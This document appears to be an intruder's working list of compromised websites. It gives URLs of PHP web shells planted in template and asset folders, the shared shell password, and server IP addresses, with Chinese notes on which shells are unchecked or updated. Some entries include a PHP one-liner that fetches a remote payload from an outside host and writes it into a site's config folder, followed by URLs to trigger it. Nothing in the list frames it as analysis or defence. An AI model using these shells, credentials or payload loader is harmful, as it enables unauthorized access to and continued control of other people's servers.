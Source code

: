 http://www.gzchaoyinsu.com/template/default/bootstrap/js/js.php |mmk123 |  120.77.250.124
http://112.124.15.47/template/default/bootstrap/js/js.php |mmk123     http://112.124.15.47/config/httpd.php?d=up
http://47.101.51.162/template/default/bootstrap/js/js.php |mmk123    http://47.101.51.162/config/httpd.php?d=up
http://121.40.25.18/template/default/bootstrap/js/js.php |mmk123    http://121.40.25.18/config/httpd.php?d=up
http://47.102.194.106/template/default/bootstrap/js/js.php |mmk123     http://47.102.194.106/config/httpd.php?d=up
http://47.113.123.5/template/default/bootstrap/js/js.php |mmk123    http://47.113.123.5/config/httpd.php?d=up
http://47.94.13.2:8000/template/default/bootstrap/js/js.php |mmk123     http://47.94.13.2:8000/config/httpd.php?d=up
http://47.93.60.207/template/default/bootstrap/js/js.php |mmk123     http://47.93.60.207/config/httpd.php?d=up
http://114.55.129.167/template/default/bootstrap/js/js.php |mmk123   http://114.55.129.167/config/httpd.php?d=up
http://47.99.75.245/template/default/bootstrap/js/js.php |mmk123    http://47.99.75.245/config/httpd.php?d=up
http://39.106.48.93/template/default/bootstrap/js/js.php |mmk123
http://39.105.19.82/template/default/bootstrap/js/js.php |mmk123    http://39.105.19.82/config/httpd.php?d=up
http://47.93.222.16/template/default/bootstrap/js/js.php |mmk123     http://47.93.222.16/config/httpd.php?d=up
http://123.57.11.49/template/default/fileinput/.github/m1.php |mmk123   http://123.57.11.49/config/httpd.php?d=up
http://39.106.73.142/apps/api/model/wap.php |mmk123
http://ke.kongquewangxiao.com/app/resource/css/boot.php |mmk123 |  121.196.161.139   http://ke.kongquewangxiao.com/data/httpd.php?d=up




未检查的

http://ke.kongquewangxiao.com/index_bk.php |mmk123 
http://www.kongquewangxiao.com/themes/js/js.php |mmk123 |  121.196.161.139

https://121.196.161.139/index_bk.php |mmk123 
http://47.122.46.79/core/cache/Redis.php |mmk123 
http://47.122.46.79/index_bk.php |mmk123 
http://114.215.157.212:8885/apps/api/view/default/index_bk.php |mmk123 
http://114.215.157.212:8885/index_bk.php |mmk123 

http://tnt.zdxinfo.com/assets/css/skins/skin.php |mmk123 |  123.56.182.44 | 404

http://fy.whqrlm.com/apps/admin/m1.php |mmk123 |  123.56.182.44
代码更新：0608 ✅
http://fy.whqrlm.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://fy.whqrlm.com/config/httpd.php?d=up

http://www.xrca.com.cn/static/index_bk.php |mmk123 |  101.200.217.38
代码更新：0608 ✅
http://www.xrca.com.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.xrca.com.cn/config/httpd.php?d=up
